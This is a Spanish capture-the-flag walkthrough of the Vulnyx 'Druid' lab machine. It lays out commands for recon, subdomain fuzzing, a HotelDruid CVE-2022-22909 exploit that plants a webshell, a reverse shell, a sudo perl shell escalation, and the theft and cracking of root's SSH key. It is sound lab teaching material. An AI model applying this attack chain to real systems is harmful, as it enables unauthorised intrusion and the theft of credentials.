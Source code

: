 ```markdown
# Vulnyx Druid

Arp scan

```bash
arp-scan -I eth0 --localnet
(Ip-Victima)
```

```bash
nmap -p 22,80 -sS -sC -sV -n -Pn (Ip-Victima) -oN nmap
```

- 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.56 ((Debian))
  - http-title: Hotel
  - http-server-header: Apache/2.4.56 (Debian)

Bien, tenemos una web de un hotel donde al final encontramos un Email "info@hotel.nyx".

Así que subiremos `hotel.nyx` al `/etc/hosts`.

```bash
nano /etc/hosts
(Ip-Victima)    hotel.nyx
```

Ahora procedemos a hacer fuzzing, pero no encontramos nada nuevo. Decidimos hacer fuzzing de subdominios.

```bash
wfuzz --hc=404,400 --hl=616 -w /usr/share/dnsrecon/subdomains-top1mil-20000.txt -H 'host: FUZZ.hotel.nyx' -u (IP-víctima)
```

- reservations.hotel.nyx

Y encontramos una especie de software para hoteles. "HotelDruid 3.0.3". Buscando, encontramos un CVE asociado a la versión.

CVE-2022-22909

Nos permite ejecutar comandos de manera remota, procedemos a descargarlo y a usarlo.

Aquí el link de descarga:
http://reservations.hotel.nyx/dati/selectappartamenti.php?1=id

Luego lo usamos. Para utilizarlo, necesitamos cambiar la pass a `admin`, la cual la encontramos en "Configure and customize > User management".

```bash
python3 exploit.py -t http://reservations.hotel.nyx/ -u admin -p 1234
```

Esto crea una webshell dentro de una ruta, la cual se nos entrega con el mismo uso del script.

http://reservations.hotel.nyx/dati/selectappartamenti.php?1=whoami
- www-data

Ahora, procedemos a hacer una reverseshell urlencodeada para tomar acceso. Yo ya la tengo guardada, así que usaré esa. Pero para obtenerla, ingresar en "webshell-generator" y luego urlencodearla con Burpsuite.

Pegamos la reverseshell luego del `.php?=` nos ponemos en escucha con netcat, ejecutamos y ya ganamos acceso.

Ahora hacemos el tratamiento de la TTY

```bash
script /dev/null -c bash
control+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Vemos que tenemos un usuario llamado "sun" que tendrá más privilegios que nosotros siendo `www-data`.

```bash
sudo -l
(sun) NOPASSWD: /usr/bin/perl
```

Al ejecutar `sudo -l` vemos que podemos ejecutar `perl` como `sun`. Ingresamos a GTFObins y vemos que tenemos forma de abrir una bash como el usuario `sun`.

https://gtfobins.github.io/gtfobins/perl/

```bash
sudo -u sun /usr/bin/perl -e 'exec "/bin/sh";'
```

```bash
whoami
sun
```

Ahora toca escalar a root

```bash
find / -perm -4000 2>/dev/null
/usr/bin/super
```

Al investigar, vemos que tenemos una opción de "rev" el cual es un binario que lee archivos a la inversa. Entonces, podemos leer y copiar un archivo como root. Atacaremos al `id_rsa` de root

```bash
/usr/bin/super -H
super secret --> /usr/bin/rev
```

```bash
/usr/bin/super secret /root/.ssh/id_rsa > id_rsa
```

Ya tenemos el `id_rsa` de root, pero invertido, para cambiarlo haremos lo siguiente

```bash
rev id_rsa > id_rsa2
```

Ahora descargamos `id_rsa2`, cambiamos el nombre a `id_rsa`, lo crackeamos con john, damos permisos a `id_rsa` y entramos via ssh como root.

```bash
ssh2john id_rsa2 > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
s****1
chmod 600 id_rsa
ssh -i id_rsa root@(ip_victima)
```
Y ya entramos como root :D
Y ya entramos como root :D
